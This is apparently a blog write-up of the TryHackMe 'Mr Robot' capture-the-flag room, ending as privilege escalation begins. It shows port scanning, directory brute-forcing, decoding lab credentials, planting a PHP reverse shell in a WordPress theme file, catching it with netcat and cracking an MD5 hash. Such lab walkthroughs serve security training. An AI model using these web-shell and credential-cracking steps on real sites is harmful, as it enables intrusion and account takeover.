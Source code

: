 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Try Hack Me - Mr Robot
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
sudo nmap -Pn -A 10.10.242.39
```


![image](https://github.com/user-attachments/assets/de811a40-544a-4d62-bafd-f03e64b11c4d)

Port scans revealed that ports 80 and 443 were open, indicating that HTTP and HTTPS services were running on these ports, respectively.

![image](https://github.com/user-attachments/assets/add084e3-351a-4e2a-89a7-c2a17e62f267)

Upon inspecting the source code, nothing useful was found. In addition to searching for the source code, the examination of the `robots.txt` file, which is used by search engine crawlers to determine which files are allowed for parsing, was carried out.

#### First Flag

![image](https://github.com/user-attachments/assets/654b72d0-0600-4270-b67f-8c484d9fcb98)

We now have two files: one is a text file containing the first key, and the other is a dictionary file.


#### Second Flag

Let's download the dictionary file and use it to perform a directory brute-force attack.
```
wget 10.10.144.37/fsocity.dic
```

```
gobuster dir -u http://10.10.144.37/ -w fsocity.dic
```

![image](https://github.com/user-attachments/assets/d634c8d3-b4d0-42ca-9bfc-eb29b404486b)


While brute-forcing the directories using the dictionary file, we discovered some interesting files. One of them was `license`. Upon accessing the `license` directory, we found a Base64-encoded value in the source code.

![image](https://github.com/user-attachments/assets/5310dbf4-f758-498f-92b0-10b39767c68d)

After decoding the Base64 string, we uncovered the username and password for login.

```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/67210e9f-56d4-4a67-8159-8c0f10a94318)

```
elliot:ER28-0652
```
The username and password can be used to log in via the /login path, which was identified during the directory brute forcing process.

![image](https://github.com/user-attachments/assets/af2185cb-1545-4870-8c1e-4956588a5b2c)

![image](https://github.com/user-attachments/assets/ada544a9-71ac-4bd6-a2f5-dae38f08ca3d)

Now that we are logged in, let's use the PHP reverse shell from Kali Linux. We can upload it via the Editor in the Appearance menu by editing the header.php file. This ensures that whenever the website loads, the header.php file gets executed, allowing us to establish a connection back to our machine.

```
sudo updatedb
```

```
locate php-reverse-shell
```

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![image](https://github.com/user-attachments/assets/b1622402-ae7b-4184-9ad0-591eaa7ff18d)

![image](https://github.com/user-attachments/assets/721e931d-972e-4525-8332-5a77c6f892a9)

![image](https://github.com/user-attachments/assets/51a7d4a4-042d-4386-a62d-1c0a817b0111)

![image](https://github.com/user-attachments/assets/0a5f9734-0b18-4d24-9560-eb1a67df13ca)


By listening on port `9001`, we successfully gained a connection when navigating to `/blog`, a page accessible only to the admin.

```
nc -nlvp 9001
```

![image](https://github.com/user-attachments/assets/3f7082ae-e5c5-414c-bb09-ed8107edc378)

After spawning /bin/bash using Python, I executed ls -la to list the files in the directory. It was revealed that we were logged in as the user daemon. However, the key file was only readable by the user robot. Another file, named password.raw-md5, contained an MD5 hash value.

```
python -c 'import pty;pty.spawn("/bin/bash");'
```
![image](https://github.com/user-attachments/assets/a7d99a16-7623-4745-a46e-24975db52f00)

![image](https://github.com/user-attachments/assets/7a0392b3-9374-43e0-9881-dab7781be9ab)

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Upon cracking the MD5 hash using CrackStation, the password for the robot user was discovered.

![image](https://github.com/user-attachments/assets/13599298-b649-4ad0-8fb0-6f86ddf448a8)

```
abcdefghijklmnopqrstuvwxyz
```
After switching the user and using the discovered password, we successfully logged in as robot. 

![image](https://github.com/user-attachments/assets/6e76fe37-69e4-4099-bd29-f73b35a2186d)

Now that we have access as robot, we can read the key file, revealing the second flag.


#### Privilege Escalation

Upon checking the user's privileges with `sudo -l, it was identified that the user "robot" is not in the sudo group, meaning it doesn't have administrative privileges by default. This indicates that we will need to find another way to escalate privileges to gain root access.

